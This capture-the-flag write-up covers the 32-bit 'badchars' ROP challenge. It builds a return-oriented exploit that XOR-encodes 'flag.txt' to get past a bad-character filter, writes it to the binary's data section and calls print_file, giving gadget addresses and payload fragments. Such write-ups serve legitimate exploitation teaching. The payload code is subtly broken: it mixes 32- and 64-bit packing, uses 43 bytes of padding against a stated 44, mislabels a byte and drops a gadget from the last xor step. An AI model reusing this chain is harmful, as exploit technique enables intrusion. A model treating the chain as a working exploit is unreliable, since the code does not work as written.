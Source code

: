 # badchars32 x86
Same as problem write4, function print_file will open a file with the fileaname as argument. Therefore, we can make the argument as string "flag.txt". However, "flag.txt" is too long to store in a 32-bit register, we need to write the string into data section and make the argument point to the address of string.

In this problem, there is a bad character list, which reject certain characters in buffer input, here is "a", "g", ".", "x". All these characters can be found in "flag.txt". So we need to find a way to bypass this bad characters checking. A simple way is use xor operation. Xor operation can be canceled by doing corresponded xor operation.

Check the security of binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
``` 
Since PIE is disabled, we can find data section address, therefore, we can use the same way in previous problem.

We write string to data section address:
```
readelf
...
.data = 0x804a018 >>> dataSect = 0x804a018 + 0x8
...
```
print_file function plt address:
```
plt 
...
Breakpoint 3 at 0x80483d0 (print_file@plt)
Breakpoint 4 at 0x80483b0 (pwnme@plt)
```
We also need some gadget to do following operations, write to data section, move data section address to rdi register, do the xor operation.
```
ROPgadget --binary badchars32
...
0x0804854f : mov dword ptr [edi], esi ; ret (gadget2) # write string to data section
...
0x080485bb : pop ebp ; ret (gadget4) # pop byte data section address to ebp register
...
0x0804839d : pop ebx ; ret (gadget5) # pop xor operation byte to ebx(bl) register 
...
0x080485b8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret (gadget1) # pop xor operation byte to ebx(bl) register, string to esi, data section address to edi, byte data section address to ebp.
...
0x08048547 : xor byte ptr [ebp], bl ; ret (gadget3)
...
```
We need to find xor pairs to bypass bad characters checking. Using xor_pair in pwntools:
```
xor_pair(b'flag.txt')
>>> (b'\x01\x01\x01\x01\x01\x01\x01\x01', b'gm`f/uyu')
# '`' ^ 1 = 'a'
# 'f' ^ 1 = 'g'
# '/' ^ 1 = '.'
# 'y' ^ 1 = 'x'
```
We only need to xor bad characters in "flag.txt". Then the string we write to data section will be:
```
b'flag.txt' >>> b'fl`f/tyt'
```
Since x86 can move only 4 bytes a time, we need to separate string "fl`f/tyt" into two part "fl`f", and "/tyt", move them to data section with two mov operations.
Now, we can build our payload:

Firstly, write the xor string 'fl`f' to data section, then do byte xor operation to each byte to string, secondly, write string '/tyt' to data section + (4 bytes), and do byte xor operation to each bbyte to string, finally call print_file.

Same as before, there is a 40 bytes buffer, and 4 bytes ebp.
```
'A'*43
```
Pop string 'fl`f' and data section address to esi edi, and xor byte and data section byte address into bl(ebx) and ebp.
```
p32(gadget1) + p32(0x1) + b'fl`f' + p32(dataSect) + p32(dataSect+2)
```
Write to data section and do xor opeation to 'a' byte.
```
p32(gadget2) + p32(gadget3)
```
Do xor operation to rest string byte 'g'.
```
# 'f' ^ 1 = 'g'
p32(gadget5) + p32(0x1) + p32(gadget4) + p32(dataSect+3) + p32(gadget3)
```
Pop string '/tyt' and data section address to esi edi, and xor byte and data section byte address into bl(ebx) and ebp.
```
p32(gadget1) + p32(0x1) + '/tyt' + p32(dataSect+4) + p32(dataSect+4) 
```
Write to data section and do xor opeation to '.' byte.
```
p32(gadget2) + p32(gadget3)
```
Do xor operation to rest string byte 'g'.
```
# 'y' ^ 1 = 'x'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+6) + p64(gadget4)
```
Jump to print_file.
```
p64(print_file_plt)
```
Execute exploit.py, and obtain the flag.
```
ROPE{a_placeholder_32byte_flag!}
```
